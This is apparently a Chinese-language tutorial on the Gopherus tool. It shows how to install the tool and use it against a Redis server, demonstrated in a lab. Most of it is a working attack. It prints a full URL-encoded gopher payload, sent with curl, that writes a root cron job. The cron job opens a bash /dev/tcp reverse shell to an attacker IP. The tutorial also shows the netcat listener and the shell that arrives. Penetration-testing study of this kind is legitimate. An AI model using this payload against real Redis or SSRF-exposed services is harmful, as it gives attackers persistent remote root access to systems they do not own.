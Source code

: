 在 SSRF 漏洞用于生成 Gopher Payload 的工具。

## 1 安装

下载

```shell
┌──(root㉿kali)-[~]
└─# git clone https://github.com/tarunkant/Gopherus.git /root/tools/gopherus && sudo sed -i 's/python2/python3/g' /root/tools/gopherus/install.sh
```

安装

```shell
┌──(root㉿kali)-[~]
└─# cd /root/tools/gopherus/ && bash install.sh && cd
```

## 2 使用

查看帮助

```shell
┌──(root㉿kali)-[~]
└─# gopherus -h
```

## 3 实战

**`redis`** 

安装 `redis` 并运行

```shell
[root@centos ~]# sudo yum install -y redis && sudo redis-server
```

攻击 `redis` 

```shell
┌──(root㉿kali)-[~]
└─# gopherus --exploit redis
```

选择反弹 `shell` 

```
What do you want?? (ReverseShell/PHPShell): ReverseShell
```

填写接收地址

```
Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 192.168.1.30
```

直接回车忽略

```
## For debugging(locally) you can use /var/lib/redis :
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
```

发送 `url` 

```shell
[root@centos ~]# curl gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2467%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.1.30/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

一分钟后接收到 `shell` 

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.1.30] from test.local [192.168.1.50] 33366
sh: 此 shell 中无任务控制
sh-4.2#
```

查看计划任务

```shell
[root@centos ~]# cat /var/spool/cron/root
```

```
*/1 * * * * bash -c "sh -i >& /dev/tcp/192.168.1.30/1234 0>&1"
```

---

参考链接

- [Gopherus](https://github.com/tarunkant/Gopherus)
